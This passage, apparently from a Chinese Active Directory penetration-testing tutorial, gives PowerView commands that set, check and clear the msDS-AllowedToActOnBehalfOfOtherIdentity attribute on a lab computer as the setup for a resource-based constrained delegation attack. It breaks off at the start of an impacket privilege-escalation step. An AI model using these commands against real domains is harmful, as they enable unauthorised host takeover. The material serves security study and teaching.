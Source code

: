 ```plain
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-180313546-3823935851-3686928739-1604)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer win7-test| Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
```

[![](assets/1705982146-d02fc5b9199e9ec88c38867c4add72ac.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120223643-55005bb0-b7a1-1.png)  
c、验证是否成功添加

```plain
Get-DomainComputer win7-test -Properties msds-allowedtoactonbehalfofotheridentity
```

[![](assets/1705982146-4a094d1b08d0b1ae49e08f4d05363ed9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120223658-5ddcfc7a-b7a1-1.png)  
d、如果想要清除 msds-allowedtoactonbehalfofotheridentity 属性的值，可用如下命令

```plain
Set-DomainObject win7-test -Clear 'msds-allowedtoactonbehalfofotheridentity' -Verbose
```

配置完 msDS-AllowedToActOnBehalfOfOtherIdentity 属性之后就可以通过基于资源的约束委派去攻击目标主机了

#### impacket 提权

Step 1：查看当前权限  